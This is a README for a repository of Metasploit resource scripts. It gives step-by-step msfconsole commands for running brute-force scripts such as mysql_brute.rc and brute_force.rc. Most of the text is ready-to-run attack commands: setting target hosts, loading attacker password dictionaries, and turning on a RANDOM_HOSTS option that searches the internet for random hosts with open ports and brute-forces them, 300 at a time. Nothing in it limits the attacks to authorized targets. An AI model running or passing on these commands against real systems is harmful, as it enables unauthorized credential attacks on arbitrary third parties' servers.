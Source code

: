 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**<br />
![pic](http://i68.tinypic.com/21ovkfm.jpg)

#### [!] Please read this article about Resource Files scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG THIS KIND OF RC SCRIPTS

![pic](http://i67.tinypic.com/2iu59g7.png)
Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

Many of the this brute force resource scripts are written to accept **user inputs** (setg global variables).<br />This means that users can run this kind of resource scripts in 3 diferent ways:

Execute resource script

      msfconsole -r /root/mysql_brute.rc

Instruct the resource script to scan rhosts input by attacker

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

Instruct the resource script to search in WAN for rhosts with service port open

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

**Adicionally to the described settings, we can also combine diferent configurations at runtime execution.**<br />

---

Instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

Instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

1º download resource script to **/root** folder<br />

      sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc

2º start postgresql service (**local**)<br />

      sudo service postgresql start

3º run brute_force.rc resource script to search hosts on WAN (**limmit the search to 300**)<br />

      sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'

<br /><br />

Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

<br /><br />

Instruct rc scripts to export **redteam** workspace database to a local file **/root/database_gfvte.xml** (optional)<br />
**If you wish to store scan results, then execute this command insted of the 3º step described above**<br />

      msfconsole -q -x 'setg SAVE_DB true;setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'

This database.xml file can now be 'imported' to your default workspace with the follow command:

      sudo msfconsole -q -x 'db_import /root/database_gfvte.xml'

### Suspicious Shell Activity RedTeam @2019

<br />

